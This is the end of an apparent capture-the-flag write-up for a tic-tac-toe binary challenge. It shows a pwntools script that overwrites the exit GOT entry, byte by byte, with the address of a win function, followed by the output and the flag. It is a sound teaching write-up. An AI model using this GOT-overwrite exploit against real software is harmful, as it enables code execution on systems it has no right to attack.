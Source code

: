 Thats about it. Nothing more! Lets see if it works, by writing a small python script.

```python
from pwn import *

p = remote("0.cloud.chals.io", 27824)
binary = ELF("./tic-tac-toe.bin", checksec=False)

def write_address_byte_at(b, pos, game):
    p.sendlineafter(b">>>", b)

    # after playing one game the 'next' player is player 2, meaning player 2 
    # will be the first player in every round except the first one. since only 
    # player 1 can freely choose it's symbol (and therefore override the got entry) 
    # we do one move for player 2 and then play the round as normal
    if game > 0:
        p.sendlineafter(b">>>", b"0 0")

    for i in range(3):
        p.sendlineafter(b">>>", b"0 %i" %pos)
        p.sendlineafter(b">>>", b"0 %i" %i)

offset = binary.got["exit"] - binary.sym["board"]
win_addr = binary.sym["win"]
i = 0

while win_addr != 0:
    address_byte = (win_addr&0xff).to_bytes(1, 'big')
    win_addr >>= 8
    write_address_byte_at(address_byte, offset+i, i)
    
    p.sendlineafter(b">>>", b"Y" if win_addr != 0 else b"N")
    i += 1

p.interactive()
```

Running the script gives us the flag.

```bash
$ python solve_carol.py
[+] Opening connection to 0.cloud.chals.io on port 27824: Done
[*] Switching to interactive mode
 Goodbye!

<<< Congratulations: chctf{1_p3rs0n_woulD_do_t43_3nt1re_GAM3}
```

Flag `chctf{1_p3rs0n_woulD_do_t43_3nt1re_GAM3}`